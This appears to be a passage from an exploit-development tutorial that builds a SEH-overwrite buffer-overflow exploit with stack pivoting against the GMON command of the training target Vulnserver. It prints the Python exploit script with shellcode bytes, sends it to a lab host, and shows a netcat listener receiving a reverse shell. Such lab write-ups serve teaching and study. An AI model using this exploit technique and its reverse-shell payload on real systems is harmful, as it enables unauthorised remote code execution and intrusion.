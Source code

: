 ```c
buf+=b"\x5c\x9c\x27\x96\x80\x3c\xc7\x4d\x01\x4c\x82\xcf\x20"
buf+=b"\xc5\x4b\x9a\x70\x88\x6b\x71\xb6\xb5\xef\x73\x47\x42"
buf+=b"\xef\xf6\x42\x0e\xb7\xeb\x3e\x1f\x52\x0b\xec\x20\x77"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

# to overwrite buffer and EBP
payload=b""
payload+=b"\x90"*2600
payload+=buf
payload+=b"\x90"*(3549-70-len(payload))
payload+=long_jmp
payload+=b"\x90"*(3549-len(payload))
# to overwrite nSEH
payload+=nseh
# to overwrite SEH
payload+=seh
# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 exploit-1.py
```

By running this exploit crafted with stack pivoting, our reverse shell gets popped

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ nc -nlvp 9876
listening on [any] 9876 ...
connect to [192.168.116.128] from (UNKNOWN) [192.168.116.140] 54360
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\vulnserver-master\vulnserver-master>whoami
whoami
vulnserver\winexp

C:\vulnserver-master\vulnserver-master>
```

This is how, we can replace usage of egghunters with stack pivots

